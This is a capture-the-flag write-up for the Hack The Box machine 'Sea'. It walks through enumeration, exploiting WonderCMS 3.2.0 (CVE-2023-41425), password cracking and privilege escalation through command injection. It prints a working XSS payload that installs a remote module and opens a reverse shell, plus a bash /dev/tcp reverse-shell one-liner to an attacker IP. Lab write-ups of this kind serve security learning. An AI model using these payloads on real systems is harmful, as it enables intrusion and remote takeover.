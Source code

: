 # Hack The Box: Sea

### Challenge Name: Sea
**Difficulty:** Easy

![image](https://github.com/user-attachments/assets/145980ec-2ffd-45a4-87c6-98058add773f)


## Writeup:

To start, I ran nmap on the ip address to see what ports were exposed:

`nmap 10.10.11.28`

![image](https://github.com/user-attachments/assets/d68f2096-4e4a-4589-a0fd-84a0b9139ae3)


So it seems it has a webserver and also ssh open.

After checking out the website and looking at the requests, I saw that all of the images were being fetched from the path `/themes/bike/img`

![image](https://github.com/user-attachments/assets/078215ee-1099-40c5-a399-f85ffaef4608)

I tried to access the `/themes/bike/` endpoint, but I stated that I was unauthorized. I was still interested in the enpoint, so I ran my dirbuster on it to see if anything would come up:

`ffuf -c -w /usr/share/wordlists/dirbuster/quickhits.txt -u "http://sea.htb/themes/bike/FUZZ" -t 200 -fc 403`

Interestingly, I got two files that were interesting `version` and `README.md`. I went to `sea.htb/themes/bike/README.md` and was able to download the README file. 

```
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

From this file, I learned that it is using WonderCMS. I did some looking up on this and saw that there was an enpoint called `/loginURL` from this post: `https://www.wondercms.com/community/viewtopic.php?t=1053`.

I also checked the `/version` enpoint and it returned `3.2.0`. I took this as the WonderCMS version. 
![image](https://github.com/user-attachments/assets/770d08da-195d-4ac2-9484-31046fb70d7e)

After some googling I found that this version is succeptible to XSS which can lead to RCE!!!

`https://github.com/prodigiousMind/CVE-2023-41425?tab=readme-ov-file`

After running it I was able to get a GET request for the XSS payload but not get the shell. I tried looking at the exploit code and found a issue with the way it was handling the URL.
Also, there was an issue with the way it was fetching the github repository. Not sure the cause behind this but I decided to just download it zip file locally and host it.

At the end, I made the xss.js file: 
```

var url = "http://sea.htb/loginURL";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = "http://sea.htb";
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.14.60:8000/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.60";
       var port = "9999";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};

```
After this, I followed the instructions and inserted this into the contact form.

I was finally able to get a shell!!!

![image](https://github.com/user-attachments/assets/22c537a6-c0e4-4f8c-8ea1-8667928da754)

After some browsing, I found a hashed password in `/var/www/sea/data/database.js` --> `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

![image](https://github.com/user-attachments/assets/c0ceb778-f719-4a07-9840-f38a716908d2)

I used john the ripper and got the password: `mychemicalromance`

![image](https://github.com/user-attachments/assets/0244f40b-08c7-4c43-ad64-436e5408b909)

I used this password to log into `amay`'s account via SSH `(0c3e5f3aa1f0679d89d66181ba473186)`

To get root, I ran a local privilege escalation script using Linpeas but was unable to get anything working.

I looked at the open ports and saw another webserver. I forwarded the connection via 

`ssh amay@sea.htb -L 8080:127.0.0.1:8080`

Once I got onto the webpage, I got to a page that looks like this. By clicking on the Analyze Log button, I was able to access files as root!!

![image](https://github.com/user-attachments/assets/1f5bbb3e-1fdc-4717-ab47-aaf908d9652a)


This was really interesting, I found out that it was vulnerable to cmdinjection as I spawned up a reverse shell using 

```
plain: bash -c 'bash -i >& /dev/tcp/10.10.14.60/9999 0>&1'
URL encoded: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.60%2F9999%200%3E%261%27
```

![image](https://github.com/user-attachments/assets/615b449f-0653-4dd3-97a2-8e16848f2ec4)


This gave me the root flag: `2b18ab6e928f1b06542edf788e2481c4`

![image](https://github.com/user-attachments/assets/460d046a-5325-416f-a270-5c05560bd94b)

